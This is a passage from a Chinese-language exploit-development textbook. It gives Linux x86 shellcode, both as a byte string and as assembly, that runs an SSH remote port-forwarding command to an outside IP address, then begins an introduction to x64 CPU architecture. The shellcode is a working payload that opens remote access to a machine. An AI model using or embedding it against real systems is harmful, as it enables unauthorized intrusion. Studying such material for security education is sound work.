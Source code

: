 下一个示例是 Linux x86 SSH 远程端口转发的外壳代码，它执行`ssh -R 9999:localhost:22 192.168.0.226`命令：

```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是外壳代码的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```

# 计算机体系结构

让我们了解一下计算机体系结构（英特尔 x64）中的一些概念。计算机的主要部件如下图所示：

![](../images/00017.jpeg)

让我们在 CPU 内部再深入一点。CPU 由三部分组成：

*   **算术逻辑单元**（**ALU**）：该部分负责执行加法、减法等算术运算和加法、异或等逻辑运算
*   **寄存器**：这是我们在本书中真正关心的，它们是 CPU 的超高速内存，我们将在下一节讨论
*   **控制单元**（**CU**）：该部分负责 ALU 与寄存器之间以及 CPU 本身与其他设备之间的通信
